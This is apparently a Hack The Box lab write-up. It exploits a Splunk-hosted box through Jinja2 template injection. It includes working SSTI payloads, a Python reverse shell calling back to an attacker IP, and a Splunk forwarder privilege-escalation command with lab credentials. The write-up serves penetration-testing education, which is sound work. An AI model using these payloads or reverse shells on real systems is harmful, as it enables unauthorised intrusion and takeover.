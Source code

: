 # Box 



![image-20201230035515067](img/image-20201230035515067.png)

https://www.hackthebox.eu/home/machines/profile/278

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance



Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.209 10.10.10.209
```

![image-20201230035855312](img/image-20201230035855312.png)

We go on the first webpage, but nothing interesting is found using gobuster.

Let's try to get on the webpage of splunk. 

![image-20201230042152630](img/image-20201230042152630.png)

we can see here a domain name dev.splunk.com, let's add it to our /etc/hosts

We now have a new page where we can register then login :

![image-20201230073548111](img/image-20201230073548111.png)

Now that we are connected we can post messages : 

![image-20201230073625066](img/image-20201230073625066.png)

Let's see if we can do some XSS :

![image-20201230080923967](img/image-20201230080923967.png)

We can see that the server runs Werkzeug which is a tool to do templates. Let's try to find the right template.

After testing {{ 7 * 7}} and getting the result 49, we can conclude that the template is jinja2. We can now try to find subprocess.Popen to get a RCE (https://akshukatkar.medium.com/rce-with-flask-jinja-template-injection-ea5d0201b870)

## Exploitation

```bash
{{[].__class__.__base__.__subclasses__()[407]}}
```

this command gives us the subprocess.popen class

![image-20201230100110528](img/image-20201230100110528.png)

Now I can execute any command with this payload : 

```bash
{{[].__class__.__base__.__subclasses__().pop(407)(['ls'],shell=True,stdout=-1).communicate()}}
```

![image-20201230101355751](img/image-20201230101355751.png)

Now let's get all the binaries from the /bin folder. I see that there is python on the remote machine. 

![image-20201230101932787](img/image-20201230101932787.png)

Let's get our reverse_shell with a python payload : 

```python
{{[].__class__.__base__.__subclasses__().pop(407)(['python2.7 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")\''],shell=True,stdout=-1).communicate()}}
```

![image-20201230102022216](img/image-20201230102022216.png)

We are in !

## Post-Exploitation

### User

We can see that we are in the group adm. So we can read logs.

![image-20201230103815204](img/image-20201230103815204.png)

After a while, I found a credential in the bakcup file in the /var/logs/apache2 folder.

![image-20201230144552303](img/image-20201230144552303.png)

So now we can su to shaun and get our flag :

![image-20201230144717225](img/image-20201230144717225.png)

### Root

Root was actually the easiest part because I already found the exploit during my first reconnaissance. We can see the exploit here : 

https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/

We are gonna use this script : https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py

I put in a script called give_root_.sh the same payload for the reverse_shell that i used before : 

```bash
python2.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Then I ran our exploit : 

```bash
python3.8 exploit.py --host 10.10.10.209 --port 8089 --lhost 10.10.14.28  --username shaun --password Guitar123 --payload "/home/shaun/give_root_.sh" 

```

![image-20201230151256511](img/image-20201230151256511.png)

Rooted.